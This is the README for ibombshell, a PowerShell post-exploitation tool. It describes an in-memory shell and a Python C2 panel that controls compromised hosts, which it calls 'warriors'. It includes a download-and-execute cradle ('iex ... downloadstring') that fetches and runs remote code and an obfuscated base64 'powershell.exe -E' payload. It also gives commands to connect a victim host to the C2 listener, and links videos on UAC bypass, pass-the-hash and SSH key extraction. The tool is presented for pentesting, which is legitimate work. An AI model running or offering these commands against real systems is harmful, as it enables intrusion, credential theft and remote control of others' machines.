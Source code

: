 ![Supported Python versions](https://img.shields.io/badge/python-3.6-blue.svg?style=flat-square)
![License](https://img.shields.io/badge/license-GNU-green.svg?style=flat-square)

# **ibombshell - Dynamic Remote Shell**

```
      ,--.!,    _ ____                  __   _____ __         ____  
   __/   -*-   (_) __ )____  ____ ___  / /_ / ___// /_  ___  / / /  
 ,d08b.  '|`  / / __  / __ \/ __ `__ \/ __ \\__ \/ __ \/ _ \/ / /  
 0088MM      / / /_/ / /_/ / / / / / / /_/ /__/ / / / /  __/ / /  
 `9MMP'     /_/_____/\____/_/ /_/ /_/_.___/____/_/ /_/\___/_/_/  

 [+] Starting the console...
 [*] Console ready!
```

**ibombshell** is a tool written in Powershell that allows you to have a prompt at any time with post-exploitation functionalities (and in some cases exploitation). It is a shell that is downloaded directly to memory providing access to a large number of pentesting features. These functionalities can be downloaded directly to memory, in the form of a Powershell function. This form of execution is known as *everywhere*.

In addition, *ibombshell* provides a second execution mode called *Silently*, so the pentester can execute an instance of ibombshell (called *warrior*). The compromised computer will be connected to a C2 panel through HTTP. Therefore, it will be possible to control the warrior and be able to load functions in memory that help the pentester. This is happening whithin the post-exploitation phase.

# Prerequisities

To run *ibombshell everywhere* it is mandatory to have PowerShell 3.0 or higher. For operating systems other than Windows you can read more about this in the [PowerShell GitHub](https://github.com/PowerShell/PowerShell) - *PowerShell for every system!*.

To run the *ibombshell silently mode* you need python 3.6 and some python libraries. You can install this with:

```[python]
cd ibombshell\ c2/
pip install -r requirements.txt
```

**Note**: ibombshell C2 works in **python 3.X**. Make sure you run a pip relative to this version.

# Usage

ibombshell has two execution modes:

## ibombshell everywhere

To load ibombshell simply run on PowerShell:

```[powershell]
iex (new-object net.webclient).downloadstring(‘https://raw.githubusercontent.com/ElevenPaths/ibombshell/master/console’)
```

Now you can run the downloaded ibombshell console running:

```[powershell]
console
```

### ibombshell everywhere in isolated environments

If you need to use ibombshell in isolated environments, you must prepare your computer first in a networked environment. Load all the functions you will need, and use savefunctions to save them in the Windows registry.

Now you can use this base 64 code to get ibombshell:

```[powershell]
powershell.exe -E "JABwAGEAdABoACAAPQAgACcAaABrAGMAdQA6AFwAcwBvAGYAdAB3AGEAcgBlAFwAYwBsAGEAcwBzAGUAcwBcAGkAYgBvAG0AYgBzAGgAZQBsAGwAXABjAG8AbgBzAG8AbABlACcAOwAgAHQAcgB5ACAAewAJAGkAZgAoAHQAZQ
BzAHQALQBwAGEAdABoACAAJABwAGEAdABoACkAIAB7ACAAJABjAG8AbgBzAG8AbABlACAAPQAgACgARwBlAHQALQBDAGgAaQBsAGQASQB0AGUAbQAgACQAcABhAHQAaAApAC4ATgBhAG0AZQA7ACAAYwBkACAAaABrAGMAdQA6
ADsAIAAkAG4AYQBtAGUAIAA9ACAAJABjAG8AbgBzAG8AbABlAC4AcwBwAGwAaQB0ACgAIgBcACIAKQBbAC0AMQBdADsAIAAkAGMAbwBkAGUAIAA9ACAAKAAoAEcAZQB0AC0ASQB0AGUAbQAgAC0AUABhAHQAaAAgACIAJABjAG
8AbgBzAG8AbABlACIAIAB8ACAAUwBlAGwAZQBjAHQALQBPAGIAagBlAGMAdAAgAC0ARQB4AHAAYQBuAGQAUAByAG8AcABlAHIAdAB5ACAAUAByAG8AcABlAHIAdAB5ACkAIAB8ACAARgBvAHIARQBhAGMAaAAtAE8AYgBqAGUA
YwB0ACAAewBOAGUAdwAtAE8AYgBqAGUAYwB0ACAAcABzAG8AYgBqAGUAYwB0ACAALQBQAHIAbwBwAGUAcgB0AHkAIABAAHsAIgBwAHIAbwBwAGUAcgB0AHkAIgA9ACQAXwA7ACAAIgBWAGEAbAB1AGUAIgAgAD0AIAAoAEcAZQ
B0AC0ASQB0AGUAbQBQAHIAbwBwAGUAcgB0AHkAIAAtAFAAYQB0AGgAIAAiACQAYwBvAG4AcwBvAGwAZQAiACAALQBOAGEAbQBlACAAJABfACkALgAkAF8AfQB9ACkALgBWAGEAbAB1AGUAOwAgACQAYwBvAGQAZQAgAHwAIABv
AHUAdAAtAHMAdAByAGkAbgBnACAAfAAgAGkAZQB4ADsAIABjADoAOwAgAGMAbwBuAHMAbwBsAGUAOwB9AH0AYwBhAHQAYwBoAHsAdwByAGkAdABlAC0AaABvAHMAdAAgACQARQByAHIAbwByAFsAMABdAH0A"
```

## ibombshell silently mode

This version allows you to run the ibombshell console and remotely control it from the C2 panel created in python. To run this version, first you must launch the console process in powershell:

```[powershell]
iex (new-object net.webclient).downloadstring(‘https://raw.githubusercontent.com/ElevenPaths/ibombshell/master/console’)
```

On ibombshell C2 path, prepare the C2:

```[python]
python3 ibombshell.py
```

And create the listener where the warriors will connected:

```[ibombshell]
iBombShell> load modules/listener.py
[+] Loading module...
[+] Module loaded!
iBombShell[modules/listener.py]> run
```

The default listener port is 8080. Finally you can launch the console in silently mode on the host to get remote control:

```[powershell]
console -Silently -uriConsole http://[ip or domain]:[port]
```

# ibombshell C2 scheme

The basic operation of the ibombshell control panel follows the following scheme:

```[ascii]
        ibombshell                 C2
            |                      |
            |    newibombshell     |
            +--------------------->| --+ register
            |                      |<--+ from IP
            |    get functions     |
            |   and instructions   |
            +--------------------->|
            |                      |
            |    send functions    |
            |   and instructions   |
execute +-- |<---------------------+
        +-->|                      |
            |       results        |
            +--------------------->|
            |                      |
```

# Docker

We have created a docker container with everything you need to make it works. Run this command from Dockerfile location.

```[bash]
sudo docker build -t "ibombshell" .
sudo docker run -it ibombshell
```

# Example videos

Some example videos...

### *iBombShell: PoC Warrior + Bypass UAC + Pass the hash*

[![iBombShell: PoC Warrior + Bypass UAC + Pass the hash](https://img.youtube.com/vi/v4c8MsOPTyA/0.jpg)](http://www.youtube.com/watch?v=v4c8MsOPTyA)

### *iBombShell: macOS*

[![iBombShell: PoC de uso desde macOS](https://img.youtube.com/vi/DQlWGPS1CB4/0.jpg)](http://www.youtube.com/watch?v=DQlWGPS1CB4)

### *ibombshell: Extracting Private SSH Keys on Windows 10*

[![ibombshell: Módulo para extracción de claves privadas SSH en Windows 10](https://img.youtube.com/vi/v7iXEg9cTNY/0.jpg)](http://www.youtube.com/watch?v=v7iXEg9cTNY)

### *iBombShell: PoC savefunctions*

[![iBombShell: PoC savefunctions](https://img.youtube.com/vi/7UP09LdRJy0/0.jpg)](http://www.youtube.com/watch?v=7UP09LdRJy0)

### *ibombshell - Silently bypass UAC Environment Injection*

[![ibombshell - Modo silencioso para el bypass UAC Environment Injection](https://img.youtube.com/vi/XrWM2gcXo3w/0.jpg)](https://www.youtube.com/watch?v=XrWM2gcXo3w)

### *iBombShell - Mocking Trusted Directory*

[![iBombShell - Mocking Trusted Directory](https://img.youtube.com/vi/6iCFS4FkedM/0.jpg)](https://www.youtube.com/watch?v=6iCFS4FkedM)

# License

This project is licensed under the GNU General Public License - see the LICENSE file for details

# Contact

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.

This software doesn't have a QA Process. This software is a Proof of Concept.

If you have any problems, you can contact:

<pablo@11paths.com> - *Ideas Locas CDO - Telefónica*

<alvaro.nunezromero@11paths.com> - *Laboratorio Innovación - ElevenPaths*

For more information please visit [https://www.elevenpaths.com](https://www.elevenpaths.com).
